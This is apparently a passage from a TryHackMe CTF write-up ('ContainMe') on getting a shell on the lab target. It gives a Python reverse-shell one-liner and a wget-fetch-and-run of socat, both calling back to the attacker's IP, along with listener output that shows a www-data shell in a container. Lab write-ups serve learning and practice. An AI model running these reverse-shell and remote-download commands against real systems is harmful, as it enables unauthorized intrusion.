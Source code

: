 Nice!! Let's get a reverse shell!

**To do so, I'll:**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# nc -lnvp 443   
listening on [any] 443 ...
```

- Send a reverse shell payload: (Generated from [revshells.com](https://www.revshells.com/))

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.27.249",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/ContainMe/images/a7.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# nc -lnvp 443   
listening on [any] 443 ...
connect to [10.8.27.249] from (UNKNOWN) [10.10.253.177] 51704
www-data@host1:/var/www/html$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
host1
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:9c:ff:0f brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.168.250.10/24 brd 192.168.250.255 scope global dynamic eth0
       valid_lft 3333sec preferred_lft 3333sec
    inet6 fe80::216:3eff:fe9c:ff0f/64 scope link 
       valid_lft forever preferred_lft forever
7: eth1@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:46:6b:29 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.20.2/24 brd 172.16.20.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe46:6b29/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `www-data`! And we're **inside a container** (`172.16.20.2` usually is a container IP).

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@host1:/var/www/html$ wget http://10.8.27.249/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.8.27.249:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/10/07 09:02:47 socat[61537] N opening character device "/dev/pts/2" for reading and writing
2022/10/07 09:02:47 socat[61537] N listening on AF=2 0.0.0.0:4444
                                                                 2022/10/07 09:03:04 socat[61537] N accepting connection from AF=2 10.10.253.177:42876 on AF=2 10.8.27.249:4444
```